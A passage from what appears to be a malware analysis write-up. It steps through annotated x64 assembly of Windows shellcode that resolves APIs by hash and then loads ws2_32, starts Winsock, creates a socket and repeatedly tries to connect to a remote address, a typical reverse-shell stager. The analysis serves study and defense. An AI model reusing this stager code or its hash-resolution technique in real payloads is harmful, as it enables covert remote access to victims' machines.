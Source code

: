#### Main Payload Analysis

Now let's analyze the main payload starting from `sub_D6`. This function immediately performs `pop rbp`, storing the return address in `rbp` - this address points to the dynamic API resolution routine just described (more analysis on this routine later).

The function proceeds with several API calls using the hash-based resolution mechanism. On Windows x64, the calling convention uses `rcx`, `rdx`, `r8`, and `r9` as the first four parameters.

**First API Call - LoadLibraryA:**
```assembly
mov     r14, '23_2sw'        ; "ws2_32" string (reversed due to little-endian)
push    r14
mov     r14, rsp             ; R14 now points to "ws2_32" string
mov     rcx, r14             ; First parameter: DLL name
mov     r10d, 726774Ch       ; Hash for LoadLibraryA
call    rbp                  ; Call LoadLibraryA("ws2_32")
```

**Second API Call - WSAStartup:**
```assembly
mov     rdx, r13             ; Second parameter: pointer to WSADATA structure
push    101h
pop     rcx                  ; First parameter: Winsock version
mov     r10d, 6B8029h        ; Hash for WSAStartup
call    rbp                  ; Call WSAStartup(0x101, lpWSAData)
```

**Third API Call - socket:**
```assembly
push    rax                  ; Save previous return values
push    rax
xor     r9, r9               ; Fourth parameter: 0 (protocol, let system choose)
xor     r8, r8               ; Third parameter: 0 (protocol)
inc     rax
mov     rdx, rax             ; Second parameter: 1 (SOCK_STREAM)
inc     rax  
mov     rcx, rax             ; First parameter: 2 (AF_INET)
mov     r10d, 0E0DF0FEAh     ; Hash for socket
call    rbp                  ; Call socket(AF_INET, SOCK_STREAM, 0)
mov     rdi, rax             ; Store socket descriptor
```

**Fourth API Call - connect (with retry loop):**
```assembly
push    10h
pop     r8                   ; Third parameter: sizeof(sockaddr_in) = 16
mov     rdx, r12             ; Second parameter: pointer to sockaddr_in structure
mov     rcx, rdi             ; First parameter: socket descriptor
mov     r10d, 6174A599h      ; Hash for connect
call    rbp                  ; Call connect(socket, sockaddr, 16)
test    eax, eax
jz      short loc_15E        ; If successful (return 0), continue
dec     r14                  ; Decrement retry counter (initially 10)
jnz     short loc_13E        ; If retries left, try again
```
